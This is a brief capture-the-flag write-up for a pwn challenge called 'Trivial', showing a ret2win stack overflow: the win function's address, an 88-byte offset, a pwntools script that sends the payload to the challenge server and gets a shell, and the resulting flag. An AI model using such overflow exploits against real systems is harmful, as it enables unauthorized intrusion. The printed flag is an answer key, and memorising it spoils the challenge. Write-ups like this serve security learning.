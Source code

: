 # Trivial

We are given some C code that we need to pwn, we can see that we need to trigger the "win" function, we can first get the address of the function like

```
readlf -s ./trivial
```

That returned 0x0000000000401132

We also know is a x64 bit program and we found the offset to be 88

We can use the following script to access the shell and get the flag


```
from pwn import *

p = remote("tamuctf.com", 443, ssl=True, sni="trivial")
payload = b'A' * 88
p.sendline(payload + p64(0x0000000000401132))
p.interactive()
```

We can ```cat flag.txt``` and get the flag


# Flag

> gigem{sorry_for_using_the_word_trivial}